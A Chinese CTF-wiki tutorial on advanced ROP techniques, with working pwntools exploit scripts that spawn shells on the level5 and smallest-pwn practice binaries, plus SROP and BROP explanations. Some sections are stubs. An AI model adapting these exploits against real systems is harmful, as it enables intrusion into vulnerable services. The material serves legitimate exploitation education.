

# 高级ROP

高级ROP其实和一般的ROP基本一样，其主要的区别在于它利用了一些比较有意思的gadgets。

# ret2__libc_scu_init

## 原理

在64位程序中，函数的前6个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的gadgets。 这时候，我们可以利用x64下的__libc_scu_init中的gadgets。这个函数是用来对libc进行初始化操作的，而一般的程序都会调用libc函数，所以这个函数一定会存在。我们先来看一下这个函数(当然，不同版本的这个函数有一定的区别)

```assembly
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0                 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```

这里我们可以利用以下几点

- 从0x000000000040061A一直到结尾，我们可以利用栈溢出构造栈上数据来控制rbx,rbp,r12,r13,r14,r15寄存器的数据。
- 从0x0000000000400600到0x0000000000400609，我们可以将r13赋给rdx,将r14赋给rsi，将r15d赋给edi（需要注意的是，虽然这里赋给的是edi，**但其实此时rdi的高32位寄存器值为0（自行调试）**，所以其实我们可以控制rdi寄存器的值，只不过只能控制低32位），而这三个寄存器，也是x64函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制r12与rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制rbx为0，r12为存储我们想要调用的函数的地址。
- 从0x000000000040060D到0x0000000000400614，我们可以控制rbx与rbp的之间的关系为rbx+1=rbp，这样我们就不会执行loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

## 示例

这里我们以蒸米的一步一步学ROP之linux_x64篇中level5为例进行介绍。首先检查程序的安全保护

```shell
➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5   
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序为64位，开启了堆栈不可执行保护。

其次，寻找程序的漏洞，可以看出程序中有一个简单的栈溢出

```C
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

简单浏览下程序，发现程序中既没有system函数地址，也没有/bin/sh字符串，所以两者都需要我们自己去构造了。

**注：这里我尝试在我本机使用system函数来获取shell失败了，应该是环境变量的问题，所以这里使用的是execve来获取shell。**

基本利用思路如下

- 利用栈溢出执行libc_csu_gadgets获取write函数地址，并使得程序重新执行main函数
- 根据libcsearcher获取对应libc版本以及execve函数地址
- 再次利用栈溢出执行libc_csu_gadgets向bss段写入execve地址以及'/bin/sh’地址，并使得程序重新执行main函数。
- 再次利用栈溢出执行libc_csu_gadgets执行execve('/bin/sh')获取shell。

exp如下

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
# RDI, RSI, RDX, RCX, R8, R9, more on the stack
# write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
#gdb.attach(sh)

# read(0,bss_base,16)
# read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
# execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

## 后续

其实，除了上述这个gadgets，gcc默认还会编译进去一些其它的函数

```text
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```

我们也可以尝试利用其中的一些代码来进行执行。此外，由于PC本身只是将程序的执行地址处的数据传递给CPU，而CPU则只是对传递来的数据进行解码，只要解码成功，就会进行执行。所以我们可以将源程序中一些地址进行偏移从而来获取我们所想要的指令，只要可以确保程序不崩溃。

需要一说的是，在上面的libc_csu_init中我们主要利用了以下寄存器

- 利用尾部代码控制了rbx，rbp，r12，r13，r14，r15。
- 利用中间部分的代码控制了rdx，rsi，edi。

而其实libc_csu_init的尾部通过偏移是可以控制其他寄存器的。其中，0x000000000040061A是正常的起始地址，**可以看到我们在0x000000000040061f处可以控制rbp寄存器，在0x0000000000400621处可以控制rsi寄存器。**而如果想要深入地了解这一部分的内容，就要对汇编指令中的每个字段进行更加透彻地理解。如下。

```assembly
gef➤  x/5i 0x000000000040061A
   0x40061a <__libc_csu_init+90>:	pop    rbx
   0x40061b <__libc_csu_init+91>:	pop    rbp
   0x40061c <__libc_csu_init+92>:	pop    r12
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
gef➤  x/5i 0x000000000040061b
   0x40061b <__libc_csu_init+91>:	pop    rbp
   0x40061c <__libc_csu_init+92>:	pop    r12
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
gef➤  x/5i 0x000000000040061e
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret    
   0x400625:	nop
gef➤  x/5i 0x000000000040061f
   0x40061f <__libc_csu_init+95>:	pop    rbp
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret    
   0x400625:	nop
gef➤  x/5i 0x0000000000400620
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret    
   0x400625:	nop
   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]
gef➤  x/5i 0x0000000000400621
   0x400621 <__libc_csu_init+97>:	pop    rsi
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret    
   0x400625:	nop

```

## 题目

参考阅读

- http://wooyun.jozxing.cc/static/drops/papers-7551.html
- http://wooyun.jozxing.cc/static/drops/binary-10638.html

# ret2_dl_runtime_resolve

参见http://wooyun.jozxing.cc/static/drops/binary-10638.html

注意：

- 可以控制6个寄存器rdi，rsi，rdx，rcx， r8，r9 
- 需要控制rax寄存器的值
- 可能被avx向量化

# ret2reg

## 原理

1. 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2. 然后反编译二进制，查找call reg 或者jmp reg指令，将 EIP设置为该指令地址
3. reg所指向的空间上注入Shellcode(需要确保该空间是可以执行的，但通常都是栈上的)

# SROP

## 基本介绍

SROP(Sigreturn Oriented Programming)于2014年被Vrije Universiteit Amsterdam的Erik Bosman提出，其相关研究**`Framing Signals — A Return to Portable Shellcode`**发表在安全顶级会议[Oakland 2014](http://www.ieee-security.org/TC/SP2014)上，被评选为当年的[Best Student Papers](http://www.ieee-security.org/TC/SP2014/awards.html)。其中相关的paper以及slides的链接如下：

[paper](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)

[slides](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)

其中，`sigreturn`是一个系统调用，在类unix系统发生signal的时候会被间接地调用。

## signal机制

 signal机制是类unix系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用kill来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：


1. 内核向某个进程发送signal机制，该进程会被暂时挂起，进入内核态。

2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入signal信息，以及指向sigreturn的系统调用地址**。此时栈的结构如下图所示，我们称ucontext以及siginfo这一段为Signal Frame。**需要注意的是，这一部分是在用户进程的地址空间的。**之后会跳转到注册过的signal handler中处理相应的signal。因此，当signal handler执行完之后，就会执行sigreturn代码。

   

   对于signal Frame来说，不同会因为架构的不同而因此有所区别，这里给出分别给出x86以及x64的sigcontext

   - x86

   ```C
   struct sigcontext
   {
     unsigned short gs, __gsh;
     unsigned short fs, __fsh;
     unsigned short es, __esh;
     unsigned short ds, __dsh;
     unsigned long edi;
     unsigned long esi;
     unsigned long ebp;
     unsigned long esp;
     unsigned long ebx;
     unsigned long edx;
     unsigned long ecx;
     unsigned long eax;
     unsigned long trapno;
     unsigned long err;
     unsigned long eip;
     unsigned short cs, __csh;
     unsigned long eflags;
     unsigned long esp_at_signal;
     unsigned short ss, __ssh;
     struct _fpstate * fpstate;
     unsigned long oldmask;
     unsigned long cr2;
   };
   ```

   - x64

   ```C
   struct _fpstate
   {
     /* FPU environment matching the 64-bit FXSAVE layout.  */
     __uint16_t		cwd;
     __uint16_t		swd;
     __uint16_t		ftw;
     __uint16_t		fop;
     __uint64_t		rip;
     __uint64_t		rdp;
     __uint32_t		mxcsr;
     __uint32_t		mxcr_mask;
     struct _fpxreg	_st[8];
     struct _xmmreg	_xmm[16];
     __uint32_t		padding[24];
   };

   struct sigcontext
   {
     __uint64_t r8;
     __uint64_t r9;
     __uint64_t r10;
     __uint64_t r11;
     __uint64_t r12;
     __uint64_t r13;
     __uint64_t r14;
     __uint64_t r15;
     __uint64_t rdi;
     __uint64_t rsi;
     __uint64_t rbp;
     __uint64_t rbx;
     __uint64_t rdx;
     __uint64_t rax;
     __uint64_t rcx;
     __uint64_t rsp;
     __uint64_t rip;
     __uint64_t eflags;
     unsigned short cs;
     unsigned short gs;
     unsigned short fs;
     unsigned short __pad0;
     __uint64_t err;
     __uint64_t trapno;
     __uint64_t oldmask;
     __uint64_t cr2;
     __extension__ union
       {
         struct _fpstate * fpstate;
         __uint64_t __fpstate_word;
       };
     __uint64_t __reserved1 [8];
   };
   ```

   ​


1. signal handler返回后，内核为执行sigreturn系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新pop回对应的寄存器，最后恢复进程的执行。其中，32位的sigreturn的调用号为77，64位的系统调用号为15。

## 攻击原理

仔细回顾一下内核在signal信号处理的过程中的工作，我们可以发现，内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在Signal Frame中。但是需要注意的是：

- Signal Frame被保存在用户的地址空间中，所以用户是可以读写的。
- 由于内核与信号处理程序无关(kernel agnostic about signal handlers)，它并不会去记录这个signal对应的Signal Frame，所以当执行sigreturn系统调用时，此时的Signal Frame并不一定是之前内核为用户进程保存的Signal Frame。

说到这里，其实，SROP的基本利用原理也就出现了。下面举两个简单的例子。

### 获取shell

首先，我们假设攻击者可以控制用户进程的栈，那么它就可以伪造一个Signal Frame，如下图所示，这里以64位为例子，给出Signal Frame更加详细的信息



当系统执行完sigreturn系统调用之后，会执行一系列的pop指令以便于恢复相应寄存器的值，当执行到rip时，就会将程序执行流指向syscall地址，根据相应寄存器的值，此时，便会得到一个shell。

### system call chains

需要指出的是，上面的例子中，我们只是单独的获得一个shell。有时候，我们可能会希望执行一系列的函数。我们只需要做两处修改即可

- **控制栈指针。**
- **把原来rip指向的`syscall` gadget换成`syscall; ret` gadget。**

如下图所示 ，这样当每次syscall返回的时候，栈指针都会指向下一个Signal Frame。因此就可以执行一系列的sigreturn函数调用。


### 后续

需要注意的是，我们在构造ROP攻击的时候，需要满足下面的条件

- **可以通过栈溢出来控制栈的内容**
- **需要知道相应的地址**
  - **"/bin/sh"**
  - **Signal Frame**
  - **syscal**
  - **sigreturn**
- 需要有够大的空间来塞下整个sigal frame

此外，关于sigreturn以及syscall;ret这两个gadget在上面并没有提及。提出该攻击的论文作者发现了这些gadgets出现的某些地址：


并且，作者发现，有些系统上SROP的地址被随机化了，而有些则没有。比如说`Linux < 3.3 x86_64`（在Debian 7.0， Ubuntu Long Term Support， CentOS 6系统中默认内核），可以直接在vsyscall中的固定地址处找到syscall&return代码片段。如下


但是目前它已经被`vsyscall-emulate`和`vdso`机制代替了。此外，目前大多数系统都会开启ASLR保护，所以相对来说这些gadgets都并不容易找到。

值得一说的是，对于sigreturn系统调用来说，在64位系统中，sigreturn系统调用对应的系统调用号为15，只需要RAX=15，并且执行syscall即可实现调用syscall调用。而RAX寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说read函数的返回值为读取的字节数。

## 利用工具

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

## 攻击实例

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

```text
➜  smallest file smallest     
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

可以看到该程序为64位静态链接版本。

**检查保护**

```text
➜  smallest checksec smallest     
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

根据syscall的编号为0，可以知道改程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

- 通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
- 通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
# set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)

# modify the return addr to start_addr+3
# so that skip the xor rax,rax; then the rax=1
# get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

# make the rsp point to stack_addr
# the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

# set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

# call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

其基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址(即第二个程序起始地址)为源程序的第二条指令，并且会设置rax=1
- 那么此时将会执行write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入payload
- 再次读取构造sigreturn调用，进而将向栈地址所在位置读入数据，构造execve('/bin/sh',0,0)
- 再次读取构造sigreturn调用，从而获取shell。

## 题目

- [Defcon 2015 Qualifier: fuckup](https://brant-ruan.github.io/resources/Binary/learnPwn/fuckup_56f604b0ea918206dcb332339a819344)

## 参考阅读

- [Sigreturn Oriented Programming (SROP) Attack攻击原理](http://www.freebuf.com/articles/network/87447.html)
- [SROP by Angle Baby](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [系统调用](http://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html)

# ret2vsdo


# BROP

## 基本介绍

BROP(Blind ROP)于2014年由Standford的Andrea Bittau提出，其相关研究成果发表在Oakland 2014，其论文题目是**Hacking Blind**，下面是作者对应的paper和slides,以及作者相应的介绍

- [paper](http://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [slide](http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)

BROP是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

## 攻击条件

- 源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
- 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有ASLR保护，但是其只是在程序最初启动的时候有效果）。目前nginx, MySQL, Apache, OpenSSH等服务器应用都是符合这种特性的。

## 攻击原理

目前，大部分应用都会开启ASLR、NX、Canary保护。这里我们分别讲解在BROP中如何绕过这些保护，以及如何进行攻击。

### 绕过Stack Canary

关于Stack Canary的基本讲解，请参考维基百科，或者本wiki的基本讲解。


 Stack Canary是在栈的返回地址的存储位置之前放置一个整形值，该值在装入程序时随机确定。栈缓冲区攻击时从低地址向高地址覆盖栈空间，因此会在覆盖返回地址之前就覆盖了警惕标志，函数在返回时会进行检查，如果发现与之前的不一样，就会报错。

## 参考阅读

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/

# JOP

Jump-oriented programming

# COP

Call-oriented programming

